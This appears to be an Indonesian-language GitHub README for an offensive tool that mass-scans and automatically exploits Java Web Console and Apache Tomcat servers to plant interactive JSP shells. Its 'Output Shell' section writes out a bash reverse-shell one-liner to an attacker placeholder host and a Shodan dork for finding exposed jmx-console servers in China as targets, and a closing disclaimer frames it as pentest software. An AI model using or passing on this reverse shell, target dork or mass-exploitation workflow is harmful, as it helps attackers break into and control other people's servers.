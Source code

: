 # 🛠️ Sincan2 Exploit Tool v3.4.1

> **by MHL TEAM**  
> Framework eksploitasi interaktif untuk vektor Java Web Console, Apache Tomcat, dan berbagai CVE modern.

![Screenshot](assets/demo.png)

---

## 🚀 Fitur Utama

- 🎯 Scan satu IP atau massal dari file
- 🧠 Deteksi CVE modern secara otomatis
- 💣 Eksploitasi otomatis shell JSP interaktif
- 📁 Stateful scanning: hasil sukses disimpan & IP dihapus

---

## 🔍 Dukungan CVE

- CVE-2022-0853 — ROP Memory Leak  
- CVE-2023-5379 — Undertow Overflow  
- CVE-2023-1397 — DoS 8MB  
- CVE-2023-6236 — Spoofed JSON  
- CVE-2025-24813 — Tomcat Path Traversal

---

## 📦 Cara Pakai

```bash
bash sodok.sh
```

Ikuti menu interaktif:

- `[1]` Scan satu IP
- `[2]` Scan dari file (`koped.txt`)
- `[3]` Keluar

---

## 🧾 Output Shell

```bash
Target Shell: http://IP/jexws4/jexws4.jsp
Reverse Shell: /bin/bash -i >& /dev/tcp/IPMU/PORT 0>&1
Dork : cari target nya dus : https://www.shodan.io/search?query=%22jmx-console%22+country%3A%22CN%22
```

---

## ⚠️ Disclaimer

Tool ini hanya untuk penggunaan sah dalam penetration testing & edukasi.  
Segala penyalahgunaan adalah tanggung jawab pengguna.

---

## 🤝 Kontribusi

BY Sincan2 MHL Team.

---

## 📫 Kontak

📧 Tim MHL: `sincan2@gmail.com`  
🔗 GitHub: [github.com/sincan2](https://github.com/sincan2)
